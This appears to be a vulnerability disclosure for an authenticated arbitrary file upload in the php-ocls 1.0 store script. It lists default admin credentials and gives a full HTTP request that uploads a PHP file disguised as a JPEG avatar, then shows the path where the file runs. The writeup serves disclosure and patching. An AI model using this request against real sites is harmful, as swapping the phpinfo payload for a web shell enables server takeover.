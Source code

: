 # php-ocls<=v1.0 Authenticated Arbitrary File Upload

## Description

    php-ocls<=v1.0 /php-ocls/classes/Users.php?f=save interface has an authenticated arbitrary file upload vulnerability

## source code

    php-ocls<=1.0
    Software Link: https://www.sourcecodester.com/php/16397/online-computer-and-laptop-store-using-php-and-mysql-source-code-free-download.html

## Author

    yangfan2@webray.com.cn inc  

## Proof of Concept

1. login system(default: admin:admin&123)

   /php-ocls/admin/login.php

| ![image-20240816163739350](https://raw.githubusercontent.com/0xffaaa/cve/main/php-ocls-Arbitrary%20File%20Upload.assets/image-20240816163739350.png) |
| ------------------------------------------------------------ |

2. upload Avatar

| ![](https://raw.githubusercontent.com/0xffaaa/cve/mainphp-ocls-Arbitrary%20File%20Upload.assets/image-20240816163815702.png) |
| ------------------------------------------------------------ |
| ![image-20240816163931495](https://raw.githubusercontent.com/0xffaaa/cve/main/php-ocls-Arbitrary%20File%20Upload.assets/image-20240816163931495.png) |

```http
POST /php-ocls/classes/Users.php?f=save HTTP/1.1
Host: 172.20.10.166:8080
Content-Length: 6464
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvOPdJlKG9BB6Qoca
Origin: http://172.20.10.166:8080
Referer: http://172.20.10.166:8080/php-ocls/admin/?page=user
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=e2vdjl8cstkt92494q3ru73n2q
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

------WebKitFormBoundaryvOPdJlKG9BB6Qoca
Content-Disposition: form-data; name="id"

1
------WebKitFormBoundaryvOPdJlKG9BB6Qoca
Content-Disposition: form-data; name="firstname"

Adminstrator
------WebKitFormBoundaryvOPdJlKG9BB6Qoca
Content-Disposition: form-data; name="lastname"

Admin
------WebKitFormBoundaryvOPdJlKG9BB6Qoca
Content-Disposition: form-data; name="username"

admin
------WebKitFormBoundaryvOPdJlKG9BB6Qoca
Content-Disposition: form-data; name="password"


------WebKitFormBoundaryvOPdJlKG9BB6Qoca
Content-Disposition: form-data; name="img"; filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundaryvOPdJlKG9BB6Qoca--

```

3. Accessing avatars

| ![image-20240816164005374](https://raw.githubusercontent.com/0xffaaa/cve/main/php-ocls-Arbitrary%20File%20Upload.assets/image-20240816164005374.png) |
| ------------------------------------------------------------ |

> /php-ocls/uploads/1723797540_1.php

| ![image-20240816164104754](https://raw.githubusercontent.com/0xffaaa/cve/main/php-ocls-Arbitrary%20File%20Upload.assets/image-20240816164104754.png) |
| ------------------------------------------------------------ |

